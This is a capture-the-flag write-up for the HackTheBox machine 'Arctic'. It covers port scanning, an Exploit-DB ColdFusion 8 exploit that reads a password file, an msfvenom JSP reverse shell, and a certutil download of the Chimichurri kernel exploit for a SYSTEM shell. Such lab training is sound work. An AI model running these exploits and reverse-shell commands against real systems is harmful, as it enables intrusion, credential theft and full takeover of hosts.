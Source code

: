 ```yaml
---
title: "Arctic - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - Arctic
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - easy
  - windows
toc: true
hide_title: true
excerpt: ""
sidebar:
        nav: "menu_writeups"
---
```


## Arctic
![](https://kar0nx.github.io/assets/images/writeup/0d6275efbd5e48fcdc96e61b9724ae5e.webp)
 
## Reconnaissance

IP: 10.10.10.11
### NMAP

```
nmap -T4 -p- -A 10.10.10.11
```

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-09 10:39 EDT
Nmap scan report for 10.10.10.11
Host is up (0.031s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|7|2008|8.1|Vista (92%)
OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows Embedded Standard 7 (91%), Microsoft Windows 7 or Windows Server 2008 R2 (89%), Microsoft Windows Server 2008 R2 (89%), Microsoft Windows Server 2008 R2 or Windows 8.1 (89%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (89%), Microsoft Windows 7 (89%), Microsoft Windows 7 Professional or Windows 8 (89%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 135/tcp)
HOP RTT      ADDRESS
1   31.16 ms 10.10.14.1
2   31.18 ms 10.10.10.11

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 260.10 seconds   
```

Nmap scan shows 3 open ports: 135, 49154 rpc and 8500 unknown. Let's check if it is related to http - http://10.10.10.11:8500 
## Website
### Site


![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250309154102.png)

Searching google for CFIDE i found that this is Adobe ColdFusion 

After researching, I find that this version of ColdFusion is vulnerable to an arbitrary file upload vulnerability.
https://www.exploit-db.com/exploits/14641

```
python2 14641.py 10.10.10.11 8500 ../../../../../../../lib/password.properties 

#Wed Mar 22 20:53:51 EET 2017
rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP  \n
password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
encrypted=true

```

I use the Python script from Exploit-DB to exploit this vulnerability and upload a file that allows us to retrieve the password.properties file, which contains sensitive credentials.

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250309155704.png)
## Gaining Access

I found great guide to get a reverse shell:
https://forum.hackthebox.com/t/python-coldfusion-8-0-1-arbitrary-file-upload/108
I copy this file to my machine as cold.py and generate a JSP shell using msfvenom:
https://www.revshells.com/

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.17 LPORT=1337 -f raw -o shell.jsp
```

```
python2 cold.py 10.10.10.11 8500  shell.jsp 
```

Next, I used the cold.py script to upload the JSP shell to the target machine via the vulnerable ColdFusion service:

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250309163316.png)

start nc on your maching

```
nc -nvlp 1337
```

and execute reverse shell

```
http://10.10.10.11:8500/userfiles/file/exploit.jsp
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250309163538.png)

We have shell, let's grab first flag:

```
c:\Users\tolis\Desktop>type user.txt
```

## Privilege Escalation

To start enumeration with windows-exploit-suggeste we need to copy the output of:

```
systeminfo
```

And paste in windows-exploit-suggester folder. 

```
python2 windows-exploit-suggester.py -d 2025-03-08-mssb.xls -i sysinfo.txt 
```

I found that machine is vulnerable to kernel exploit ms10-059 chimichurri. 
https://github.com/egre55/windows-kernel-exploits/blob/master/MS10-059%3A%20Chimichurri/Compiled/Chimichurri.exe
Get this compiled chimichurri.exe on your machine and host it via python server

```
python3 -m http.server 81
```

Download it on target machine

```
c:\Windows\Temp>certutil -urlcache -f http://10.10.14.17:81/Chimichurri.exe chimi.exe
```

And run (add your IP and port)

```
.\chimi.exe 10.10.14.17 443
```

set nc 

```
nc -nvlp 443
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250309170503.png)

we have system privilege, grab your flag.

```
c:\Users\Administrator\Desktop>type root.txt
```